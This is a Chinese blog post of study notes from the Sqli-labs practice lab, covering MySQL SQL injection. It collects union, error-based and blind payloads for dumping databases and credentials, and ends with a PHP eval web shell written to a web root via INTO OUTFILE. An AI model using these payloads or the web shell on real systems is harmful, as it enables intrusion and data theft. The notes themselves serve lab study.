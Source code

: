 ```yaml
---


title: Sqli-labs 

time: 2016.07.28 15:22:00

layout: post

tags:

- Security
- Web
- SQL

excerpt: Learning summary from Sqli-labs.I always feel that I'm not good ad SQL by hand .So, in this summer, I want to learn it through Sqli-labs.

---
```

# Sqli-labs

---

## 0x00 SQL注入一般过程

1. 判断是什么类型注入，有没有过滤了关键字，可否绕过，猜测后台SQL语句是怎样的，如何拼接
2. 获取数据库用户（user（））,版本（version（）），数据库（database（））等信息
3. 获取某个数据库表中信息
4. 获取列信息
5. 获取数据

---

## 0x01 PHP+Mysql 手注一般过程

1. 爆字段长度 order by num %（注释也可以使用－－空格）
2. 匹配字段 and 1=2 union select 1,2,3,4,5...%
3. 利用内置函数爆数据库信息及相关信息 version() database() user() current_user() @@datadir数据库路径 @@basedir mysql安装路径 @@version_compile_os 操作系统
4. (这里讲最通用的 mysql>5.0)	
	5. 获取数据库（非必要，因为前面的database可以获得）and 1=2 union select 1,2,schema_name from information_schema.schemata limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录） % 
	6. 获取表  and 1=2 union select 1,2,table_name from information_schema.tables where table_schema = '数据库名字'（最常用的是十六进制表示的数据库,'容易被过滤） limit 0,1 ％
	7. 获取列  and 1=2 union select 1,2,column_name from information_schema.columns where table_schema=0x十六进制数据库 and table_name=0x十六进制表 limit 0,1 %
	8. 获取内容 and 1=2 union select 1,2,concat_ws(char(32,58,32),username,password) from users(表名) limit 0,1 %
	
-----

## 0x02 常见后台拼接语句

1. $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";（需闭合'）
2. $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
3. $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";（需闭合'））
4. $id = '"' . $id . '"';$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";即$sql="SELECT * FROM users WHERE id=("$id") LIMIT 0,1";(需闭合"),此时你输入'不会报错)
5. $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";（少见）


----
	
## 0x03 无正常数据回显注入

mysql报错注入时,我们有时候会遇到没有正常数据回显的注入.这时候就需要报错注入来获得我们需要的数据.

```
1. floor()
语句:and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

mysql> select 1 and (select 1 from  (select count(*),concat(version(),floor(rand
(0)*2))x from  information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '5.5.401' for key 'group_key'

2. updatexml()
语句:and (updatexml(1,concat(0x3a,(select user())),1));
ct
mysql> select 1 and (updatexml(1,concat(0x3a,(select user())),1));
ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'

3. ExtractValue()

和upadtexml()用法差不多
语句:and extractvalue(1, concat(0x5c, (select user())));

mysql> select 1 and extractvalue(1, concat(0x5c, (select user())));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'

4. GeometryCollection() version > MySQL4.1
5. MultiPoint()
6. Polygon()
7. LineString()
8. MultiPolygon()
9. MultiPoint()
10. MultiLineString()


这几个是mysql在4.1版本之后引入的一系列空间扩展，使其具备了一定的空间处理能力.
语句都一样就列举了一个例子.

语句:AND GeometryCollection((select * from(select * from(select user())a)b));

mysql> select 1 AND GeometryCollection((select * from(select * from(select user())a)b));

ERROR 1367 (22007): Illegal non geometric '(select `b`.`user()` from (select 'root@localhost' AS `user()` from dual) `b`)' value found during parsing

11. select exp(~(select * FROM(SELECT USER())a))         //double数值类型超出范围 //Exp()为以e为底的对数函数；版本在5.5.5及其以上
12. select !(select * from (select user())x -（ps:这是减号） ~0   //bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上
13. select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;//mysql重复特性，此处重复了version，所以报错
```

---
## 0x04 盲注常用函数

1. length(str)：返回str字符串的长度。
2. substr(str, pos, len)：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始
3. mid(str,pos,len):跟上面的一样，截取字符串
4. ascii(str)：返回字符串str的最左面字符的ASCII代码值。
5. ord(str):同上，返回ascii码
6. if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0
7. left(database(),1) 取database字符串的左边第一个

常见payload：
	
	基于布尔的盲注
	(select length(database()) limit 0,1) > 10 --+
	(select ascii(substr(database(),1,1)) limit 0,1 ) > 10 --+
	(select count(*) from table ) >2		--+	
	select count(*) from information_schema.tables > 10 --+
	(select length(table_name) from information_schema.tables  where table_schema=0x2312365363314 limit 0,1) >10 --+
	(select ascii(substr(table_name,1,1)) from information_schema.tables  where table_schema= 0x2312365363314 limit 0,1) >10 --+
	(select length(column_name) from information_schema.columns where table_schema=0x31fe312312 and table_name = 0x23124534 limit 0,1) > 10 --+
	(select ascii(substr(column_name,1,1)) from information_schema.columns  where table_schema= 'security' and table_name = 'users' limit 0,1) > 10 --+
	
[提供一个bool盲注脚本](https://github.com/momomoxiaoxi/security/blob/master/Web/python/blind.py)
	
	基于时间的盲注
	这里就要用到if语句了
	if((select length(database()) limit 0,1) >10,0,sleep(5)) %23
	if((select ascii(substr(database(),1,1)) limit 0,1) > 10 ,0 ,sleep(5)) %23
	if((select count(*) from information_schema.tables)>10,0,sellep(5)) %23
	if((select length(table_name) from information_schema.tables  where table_schema = 0x21312 limit 0,1 ) >10 ,0,sleep(5)) --
----
## 0x05导出文件

1. 最通俗的将一句话导出： select "<?php @eval($_POST['moxiaoxi']);?>" into outfile "XXX\test.php" 
2. 导出文件一般需要知道系统网站的默认路径
	
	3.  winserver的iis默认路径是c://inetpub/wwwroot/(asp)
	4.  linux的nginx一般是/usr/local/nginx/html,/home/wwwroot/default,/usr/share/nginx,/var/www/html等
	5.  linux的apache一般是/var/www/htm,/var/www/html/htdocs	

